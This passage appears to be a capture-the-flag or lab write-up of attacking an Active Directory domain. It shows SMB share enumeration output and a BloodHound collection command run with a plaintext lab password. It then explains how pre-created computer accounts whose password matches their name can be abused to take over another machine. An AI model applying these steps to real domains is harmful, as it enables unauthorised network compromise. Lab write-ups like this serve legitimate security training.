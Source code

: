 ```
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.129.173.72:445       Name: 10.129.173.72             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections 
```

## ldapreader
With our new credentials, we'll run bloodhound as there really isn't much to enumerate.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo/blood]
└─$ bloodhound-python -c All -u 'ldapreader' -p 'ppYaVcB5R' -d retro2.vl -ns 10.129.173.72
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: retro2.vl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (bln01.retro2.vl:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 27 users
INFO: Found 43 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: BLN01.retro2.vl
INFO: Done in 00M 05S
```

Looking through bloodhound and checking through `shortest path to domain admin`, we find something unusual..
![capture-3](capture-03.PNG)
Here we see that two computers (fs01 & fs02) are a member of `domain computers` which have genericWrite over `admws01`.
Doing some googling, I find that this is a fairly old vulnerability. link: https://trustedsec.com/blog/diving-into-pre-created-computer-accounts <br>
In short; pre-configured domain computers have their password set as their computer name i.e. if the computer is called fs01, the password will be fs01.
With this in mind, we could reset the computer's password to gain control over it.
